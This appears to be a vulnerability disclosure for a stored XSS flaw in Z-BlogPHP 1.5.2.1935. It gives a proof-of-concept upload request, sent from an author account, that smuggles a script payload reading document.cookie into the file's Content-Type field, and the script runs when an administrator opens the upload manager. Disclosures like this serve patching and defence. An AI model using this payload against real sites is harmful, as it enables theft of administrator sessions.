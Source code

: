 Z-BlogPHP 1.5.2.1935 (Zero) Stored XSS via zb_system/function/c_system_admin.php  in 1237 line.
## Component
Z-BlogPHP 1.5.2.1935 (Zero) Download link:https://www.zblogcn.com/zblogphp

## Vulnerability location
zb_system/function/c_system_admin.php  in 1237 line.
![]()

## Vulnerability trigger condition
login with a author's privilege account
## POC 
edit Content-Type param value:<script>alert(document.cookie)</script>,then forward it.
```
POST /Z-Blog/zb_system/cmd.php?act=UploadPst&csrfToken=5fb877f1b3051a92b4c2f6809354caa5 HTTP/1.1
Host: 192.168.3.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng
Content-Type: multipart/form-data; boundary=---------------------------61109570014186299461550053428
Content-Length: 19160
Cookie: timezone=8; username=safetest; token=c8ab6b10998316d1390318ab2bc5b95b90c63c9c62d22fcfe2b6d379340e21911539683657; addinfoZ-Blog=%7B%22chkadmin%22%3A1%2C%22chkarticle%22%3A1%2C%22levelname%22%3A%22%5Cu4f5c%5Cu8005%22%2C%22userid%22%3A%223%22%2C%22useralias%22%3A%22safetest%22%7D; timezone=8
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="file"; filename="天气预报.png"
Content-Type: <script>alert(document.cookie)</script>

�PNG

   
IHDR   v   x   '�a   sRGB ���   gAMA  ���a   	pHYs  �  ��o�d  IIDATx^�w�$e�����y=���� Q@I�A���$E0�""�����9�s�avvvvfv'��<ӓs�f��]�SU=�=��
���xY�U�=�u��~w��g��nz�m�:��������s�{���E�H<����tR���s������P?��!�;:����c��w���>���[�W��D��S1��k�k�cjDN(��U"�m��8Z)rD�2�C�!9���Ð�7�E�W)�=e�v�Z�t�C)��l+��E��(h��bSaP6lt=(`�R`��u�6?`X�g����U�ì�Y��X,�e6K��Y��E���+r[�����/ۧ����)h?W^�ݹ�v�X��i�S�n�l�ٖe��d�6{,6�ؘ��"\�O�XkaMZ��k�lX��Z�t�"�byr�,Kn��.�$
�����³6g,�i��0�f��h1GIh��.f)�3mf�LSN[LU�dJ\�L>U/-��Ih��V����x�?�;�uΞ���݈S��"CB�)t;�v�.U�#V�n�� �b�k�	y�#��T�:*k����j[��\��U�K#�#K	I�E.Mj4��2!r1��"O�.@�|�gc	m02�fq�T#y3a��#ՈE�d*S��$�^�bj�,Ln���+��]���VB-���Hu�鰕t*[�"mT���ȴ0"]8�tP�N:T�#t8��G��t�B��Se��K�:�XGh�Pe�-ԑ�����ZL�����I�
��j��������)
	E�r.�F*ݜKh�T�1R]B�T�)�L'�n�aR�h�4M��PK�[���%t4�HS�ڌ��s�6%�����!v2"'�u�	6�b�����lE�mWN{�	
�j�<�Pgu	E�J�Kf(��P��"�\RϙR[�Jo��s�5�,C��6���U�n���ROZ�]+�穀붖��U}�ێ���;�Z��a��&L"򶁊4��6����fÆ�SN�E�aF&�V���,W�4�D:��`D�m��f��"d-��eH �,�
�d�.��-9L��#�9.�|�}=�&��ܩ��d
-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="auto_rename"

on
-----------------------------61109570014186299461550053428--

```
when we login with administrator,access to link,http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng,the Js code successfully executed.
![]()
